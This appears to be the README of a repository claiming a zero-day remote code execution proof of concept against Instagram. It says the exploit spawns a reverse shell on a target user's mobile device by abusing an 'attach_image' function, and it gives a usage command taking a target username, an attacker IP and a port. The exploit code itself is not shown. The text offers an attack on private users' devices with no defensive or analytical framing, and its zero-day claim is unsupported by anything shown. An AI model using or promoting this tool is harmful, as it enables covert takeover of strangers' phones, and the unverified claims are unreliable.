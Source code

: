 # instagram-zero-day-rce-poc
Zero day poc demonstrating spawning a reverse shell on a target users mobile device by abusing the attach_image function call.

## Instructions
1. command: `python poc.py -u [TARGET IG USER] -i [IP HERE] -p [PORT HERE]`

## Supported Operating Systems
- Windows
- Linux
